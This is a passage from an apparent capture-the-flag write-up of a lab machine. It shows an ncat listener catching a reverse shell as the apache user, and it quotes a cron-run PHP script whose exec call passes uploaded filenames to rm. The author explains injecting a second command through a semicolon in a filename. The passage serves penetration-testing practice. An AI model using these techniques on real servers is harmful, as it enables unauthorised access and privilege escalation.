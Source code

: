 	$ ncat -lkv 5555
	Ncat: Version 7.80 ( https://nmap.org/ncat )
	Ncat: Listening on :::5555
	Ncat: Listening on 0.0.0.0:5555
	Ncat: Connection from 10.10.10.146.
	Ncat: Connection from 10.10.10.146:58216.
	bash: no job control in this shell
	bash-4.2$ ls
	ls
	10_10_14_23.jpg
	10_10_14_23.php.jpg
	127_0_0_1.png
	127_0_0_2.png
	127_0_0_3.png
	127_0_0_4.png
	index.html
	bash-4.2$ 
	
	bash-4.2$ whoami
	whoami
	apache
	bash-4.2$ 

I got a shell as the "apache" user. 

# Getting a real user

Now that I had a shell I needed to get a user account shell. 

This step took me quite a while. After I got the apache web shell I took a break and came back the next day. Screwed around for a bit and came back the day after that. I was pretty stumped. I ended up getting pretty frustrated. 

Basically, I knew what file I needed to use, I just couldn't figure out what to do with it. It was a script in the "guly" user directory called "check_attack.php" that was being launched as a cron job every 3 minutes. The script looped through all of the files in the upload directory looking for files that didn't meet the filename requirements defined in the code. 

After a while I started perusing the HTB forums and found this link:

	https://www.defensecode.com/public/DefenseCode_Unix_WildCards_Gone_Wild.txt

It is a good read in generalm but it led me down the right path. I knew I needed to use this line of the script in the user directory:

	exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
	
I don't like looking at the forums to hints, but I had spent too much time fiddling around with no progress. I won't say that the wildcard writeup gave it away, but it put me in the right mindset. One reason this line stuck out was because the script cycled through the files in the uploads directory, and I could now put files in that directory with my apache shell. 

The trick was to use a semicolon (;) to run a second command.  I touched a file in the uploads directory. It didn't need any contents - the name itself did the work. 
